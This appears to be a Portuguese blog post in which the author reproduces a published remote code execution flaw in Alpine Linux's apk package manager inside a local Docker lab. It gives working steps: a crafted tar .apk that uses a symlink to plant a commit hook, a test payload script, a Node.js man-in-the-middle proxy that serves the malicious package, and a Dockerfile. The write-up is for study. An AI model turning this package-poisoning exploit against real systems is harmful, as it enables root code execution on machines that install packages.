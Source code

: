 ```yaml
---
layout: post
title: Testando RCE no Alpine Linux usando APK
lang: pt_BR
description: Testando vulnerabilidade no APK do Alpine Linux
tags: docker alpine linux rce vulnerability apk
comments: true
--- 
```


Ultimamente eu tenho estudado um pouco de segurança e uma das coisas que estou fazendo de tempos em tempos é lendo CVE e tentando testar e entender o que está acontecendo. Ontem [Max Justicz](https://justi.cz/) publicou "[Remote Code Execution in Alpine Linux](https://justi.cz/security/2018/09/13/alpine-apk-rce.html). Ele encontrou problemas no `apk` o qual é o gerenciador de pacotes para o Alpine Linux que é super popular para imagens docker.

Max fez um trabalho excelente em explicar os passos e razões, mas eu queria testar eu mesmo. 


```
- Create a folder at /etc/apk/commit_hooks.d/, which doesn’t exist by default. Extracted folders are not suffixed with .apk-new.
- Create a symlink to /etc/apk/commit_hooks.d/x named anything – say, link. This gets expanded to be called link.apk-new but still points to /etc/apk/commit_hooks.d/x.
- Create a regular file named link (which will also be expanded to link.apk-new). This will write through the symlink and create a file at /etc/apk/commit_hooks.d/x.
- When apk realizes that the package’s hash doesn’t match the signed index, it will first unlink link.apk-new – but /etc/apk/commit_hooks.d/x will persist! It will then fail to unlink /etc/apk/commit_hooks.d/ with ENOTEMPTY because the directory now contains our payload.
```

As instruções dele parecem simples, mas se você não está super familiar como arquivos tar funcionam e alguns outros conceitos, você pode não entender. Em um arquivo tar você pode ter multiplas versões ou arquivos com o mesmo nome e extrair eles usando `--occurrence`. Com isso em mente as intruções fazem um pouco mais de sentido. 

Primeiramente criando os diretórios:
```
sudo mkdir /etc/apk/commit_hooks.d/
mkdir folder_for_link
mkdir folder_for_real_file
```

Criando o link
```
/etc/apk/commit_hooks.d/x folder_for_link/magic
```

Crie o arquivo `folder_for_real_file/magic` com este conteudo
```
#!/bin/sh

echo "something" > /tmp/test-12346-YAY
echo "ha" > /testfileroot
```
(Se isso realmente funcionar devemos ter esses dois arquivos no sistema.)

Agora temos praticamente tudo que precisamos e podemos criar o apk:
```
tar -zcvf bad-intention.apk /etc/apk/commit_hooks.d/ -C $PWD/folder_for_link/ magic -C $PWD/folder_for_real_file/ magic
```

Aqui estamos adicionando 3 arquivos em sequencia para o tar, você pode checar o resultado com:
```
$ tar tvf bad-intention.apk
drwxr-xr-x root/root         0 2018-09-13 19:44 etc/apk/commit_hooks.d/
lrwxrwxrwx root/root         0 2018-09-13 19:37 magic -> /etc/apk/commit_hooks.d/x
-rwxrwxrwx root/root 954 2018-09-13 23:24 magic
```
(Preste atenção na ordem dos mesmos, criação do diretorio commit_hooks.d, criação do link, criação do arquivo)

Qual deveria ser o comportamento agora? Já que o APK no Alpine roda apartir do `/` ele vai criar a pasta `/etc/apk/commit_hooks.k`, posteriomente vai extrair o link e terminar fazendo output do arquivo magic para o link o qual será escrito no arquivo X (apontado pelo link). *Note*, eu perdi MUITO TEMPO tentando verificar esse comportamento com o `tar` mas parece que este não possui esse comportamento e o `apk` implementou seu proprio extrator.

Certo, agora precisei entregar este arquivo quando rodasse `apk add` dentro do docker. Localmente, eu atualizei meu /etc/hosts e apontei `dl-cdn.alpinelinux.org` para localhost. Utilizando as bibliotecas `http-mitm-proxy http-proxy request` no nodejs, eu criei um servidor que forneceria o .apk criado caso a url contenha "ltrace" no meio, caso contrário baixaria o arquivo normalmente e instalaria.1

```
var http = require('http'),
    httpProxy = require('http-proxy'),
    request = require('request'),
    fileSystem = require('fs'),
    path = require('path');

var proxy = httpProxy.createProxyServer({});

var server = http.createServer(function(req, res) {
  console.log('http://nl.alpinelinux.org' + req.url)
  if (req.url.indexOf('ltrace') > -1) {
    console.log("Trapped")
    var filePath = path.join(__dirname, 'bad-intention.apk');
    var stat = fileSystem.statSync(filePath);
    var readStream = fileSystem.createReadStream(filePath);
    readStream.pipe(res);
  } else {
      proxy = request('http://nl.alpinelinux.org' + req.url)
      proxy.on('response', function (a, b) {}).pipe(res);
  }
});

console.log("listening on port 80")
server.listen(80);
```

Criando a imagem do docker com `docker build -t alpinetest --network=host --no-cache .`
```
FROM alpine:3.8

# RUN apk add python
RUN apk add ltrace

CMD "/bin/sh"
```
(Se você está curioso, você pode dar uma olhada dentro da imagem mesmo que o build tenha falhado. Você pode verificar que os arquivos estão no lugar certo. Utilize `docker commit CONTAINER_ID` e `docker run -it SHA256_STRING sh`.)

A saida retornou "The command '/bin/sh -c apk add ltrace' returned a non-zero code: 1". Isto acontece porque o `apk` verifica a assinatura do arquivo e tenta limpar os arquivos e diretórios porém ele não consegue já que existe um arquivo em `/etc/apk/commit_hooks.k`. Então como fazer alguma magica para fazer o comando retornar o exit code 0? Max encontrou um (ou dois) jeitos.

Eu ainda preciso estudar e entender o que exatamente o python script faz mas eu testei o mesmo e ele funciona. Como um teste rápido você pode descomentar `RUN apk add python` e atualizar o script `folder_for_real_file/magic` para chamar o código python. 

Matheus